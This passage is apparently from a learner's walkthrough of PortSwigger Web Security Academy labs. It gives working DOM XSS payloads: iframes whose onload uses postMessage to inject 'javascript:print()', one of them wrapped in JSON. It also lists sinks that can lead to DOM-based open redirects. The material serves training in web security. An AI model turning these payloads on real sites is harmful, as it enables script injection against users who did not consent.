 ```bash

Go to: "Go to exploit server"
Body:

<iframe src="https://ace91f201fb434d5c0b82095007d005b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">

Store
Deliver exploit to victim

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220528215808.png)

### DOM XSS using web messages and JSON.parse
```bash

# This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

Go to:

view-source:https://ac6e1fd91e05dffcc0be62cc00e100d4.web-security-academy.net/

Go to: "Go to exploit server"
Body:

<iframe src=https://ac6e1fd91e05dffcc0be62cc00e100d4.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

Store
Deliver exploit to victim

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220528232236.png)

### Which sinks can lead to DOM-based open-redirection vulnerabilities?
#### The following are some of the main sinks can lead to DOM-based open-redirection vulnerabilities:
```bash

location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()

```
##### Reference
https://portswigger.net/web-security/dom-based/open-redirection
